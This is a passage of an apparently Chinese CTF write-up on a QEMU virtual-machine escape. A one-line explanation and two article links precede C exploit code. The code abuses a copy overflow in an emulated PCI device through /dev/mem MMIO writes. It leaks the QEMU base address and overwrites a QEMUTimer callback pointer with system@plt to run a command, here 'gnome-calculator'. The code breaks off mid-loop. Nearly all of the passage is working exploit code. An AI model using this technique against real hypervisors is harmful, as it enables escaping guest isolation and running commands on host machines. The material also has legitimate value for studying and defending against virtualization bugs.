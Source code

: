 > 有符号，漏洞就是个拷贝溢出，可溢出QEMUTimer结构体，打结构体中的cb成员（函数指针）

- [QEMU逃逸初探（一）](https://www.anquanke.com/post/id/254906)
- [从qemu逃逸到逃跑](https://www.anquanke.com/post/id/256977)

```c
#include <stdint.h>
#include <unistd.h>
#include <fcntl.h>
#include <string.h>
#include <stdlib.h>
#include <sys/mman.h>

void * mmio;

void mmio_write(uint64_t addr, uint64_t value){
    *(uint64_t *)(mmio + addr) = value;
}

uint64_t gva2gpa(void * addr){
    uint64_t page;
    int fd = open("/proc/self/pagemap",0);
    lseek(fd,((uint64_t)addr >> 12 << 3),0);
    read(fd,&page,8);
    return ((page & 0x7fffffffffffff) << 12 ) | ((uint64_t)addr & 0xfff);
}

void set_src(uint64_t value){ mmio_write(0x08,value);}
void set_cnt(uint64_t value){ mmio_write(0x10,value);}
void set_cmd(uint64_t value){ mmio_write(0x18,value);sleep(1);}

typedef struct {
    uint64_t cp_src;
    uint64_t cp_cnt;
    uint64_t cp_dst;
} cp_info;

int main(){
    mmio = mmap(0,0x1000,PROT_READ | PROT_WRITE, MAP_SHARED, open("/dev/mem",2),0xfea00000);

    // get huge page
    system("sysctl vm.nr_hugepages=30");
    void * buf = mmap(0, 512 * 0x1000, PROT_READ | PROT_WRITE , MAP_SHARED | MAP_ANONYMOUS | 0x40000, -1, 0);
    memset(buf,'a',0x2000);

    // leak
    cp_info tmp;
    tmp.cp_src = 0;
    tmp.cp_cnt = 0x1020;
    tmp.cp_dst = gva2gpa(buf);
    set_src(gva2gpa(&tmp)); set_cnt(1); set_cmd(4);

    uint64_t qemu_base   = *(uint64_t *)(buf + 0x1010) - 0x4DCE80;
    uint64_t cp_buf_addr = *(uint64_t *)(buf + 0x1018) + 0xa00;
    uint64_t system_plt  = qemu_base + 0x2C2180;

    // attack
    cp_info exp[0x11];
    char cmd[20] = "gnome-calculator;";
    memcpy(buf,cmd,strlen(cmd));
    *(uint64_t *)(buf + 0x1010)  = system_plt;
    *(uint64_t *)(buf + 0x1018)  = cp_buf_addr;
    for(int i=0;i<0x11;i++){
        exp[i].cp_cnt=0x1020;
```